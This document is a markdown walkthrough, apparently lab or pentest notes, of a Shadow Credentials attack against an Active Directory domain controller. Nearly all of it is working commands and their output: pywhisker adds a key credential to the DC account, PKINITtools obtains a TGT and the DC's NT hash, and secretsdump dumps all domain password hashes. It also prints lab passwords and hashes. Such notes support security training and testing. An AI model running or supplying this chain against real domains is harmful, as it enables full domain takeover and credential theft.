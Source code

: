 # Shadow Credentials

## tips
1. use python3.8
2. use the `-dc-ip` flag to point to the domain controller

## Scenario
- domain: lab.local
- ADCS: present and required for PKINIT
- user: sysadmin
- group membership: key admins
- privilege: AddKeyCredentialLink over Domain Controller: DC$

## Step #1: List key credentials
listing the keys on the DC. the out gives an either/or answer so we should try going for it

### Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action list
```
### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

## Action #2: Add key credentials

### Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action add
```
### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e3550b17-9746-d819-99eb-0d907c12922d
[*] Updating the msDS-KeyCredentialLink attribute of dc$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: dnUC8Y14
[VERBOSE] No pass was provided. The certificate will be stored with the password: cCw1PLYcsQsUJggLshDq
[+] Saved PFX (#PKCS12) certificate & key at path: dnUC8Y14.pfx
[*] Must be used with password: cCw1PLYcsQsUJggLshDq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

## Step #3: Getting TGT
using PKINIT, we request a TGT

### Command
```bash
python3.8 /opt/PKINITtools/gettgtpkinit.py -v -dc-ip dc -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

### Output
```
2022-07-05 05:58:06,827 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-07-05 05:58:06,841 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2022-07-05 05:58:18,909 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2022-07-05 05:58:18,909 minikerberos INFO     5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
INFO:minikerberos:5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
2022-07-05 05:58:18,912 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

## Step #4: Getting NTHASH
using the key generated in Step #3 and exporting the generated TGT into our kerberos cache, we're going to get the NTLM hash for the DC :D

### Command
```bash
export KRB5CCNAME=/opt/pywhisker/dnUC8Y14.ccache
python3.8 /opt/PKINITtools/getnthash.py -dc-ip dc lab.local/'DC$' -key 5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
```

### Output
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
8028aac845cdc82881b55e1d0b1c88e5
```

## Step #5: Dumping NTDS.dit
hashes. hashes everwhere

### Command:
```bash
secretsdump.py -just-dc-ntlm -dc-ip dc lab.local/'DC$'@dc.lab.local -hashes :8028aac845cdc82881b55e1d0b1c88e5
```

### Output:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:eff164ce8ed0ac98cb7520c4de7dfc0b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
LAB.local\FSAdmin:1104:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\Regular:1106:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\SysAdmin:1107:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\JohnSmith:1108:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\NewUser:1113:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
DcpnYhFXlO:1117:aad3b435b51404eeaad3b435b51404ee:565cae8a079a5078163bc7969d132b9b:::
PoCOUBzGGU:1118:aad3b435b51404eeaad3b435b51404ee:1713981fe06cd340348300f7500befcf:::
john:1123:aad3b435b51404eeaad3b435b51404ee:98da674948a73eb2cfa124e9aca27a03:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:8028aac845cdc82881b55e1d0b1c88e5:::
CLIENT1$:1105:aad3b435b51404eeaad3b435b51404ee:43ca831bd985a0e64297f7799b39660b:::
FS$:1115:aad3b435b51404eeaad3b435b51404ee:995c9d47bb2bf0ff113b525d38cae2e1:::
HZBDQHVP$:1116:aad3b435b51404eeaad3b435b51404ee:38ae9e7ea8d9ab0f07982baac9e11b48:::
SFDRQNQH$:1119:aad3b435b51404eeaad3b435b51404ee:094a2d83f66f017ccd989a024e7bceee:::
JWHMHWBU$:1120:aad3b435b51404eeaad3b435b51404ee:53fb78699467a971ee2a51109afcf7e2:::
gmsa1$:1122:aad3b435b51404eeaad3b435b51404ee:2be99b0ca6594829276aaf74358624b8:::
[*] Cleaning up... 
```

## (Optional) Step #6: Removing the msDS-KeyCredentialLink
you will need the device GUID for this stem --> it's provided in the output of the command in step #1

### Command
```bash
python3.8 pywhisker.py --dc-ip dc -d 'lab.local' -u 'sysadmin' -p 'Abc123!!' --target 'DC$' --action remove --device-id 'e3550b17-9746-d819-99eb-0d907c12922d'
```

### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Found value to remove
[*] Updating the msDS-KeyCredentialLink attribute of DC$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```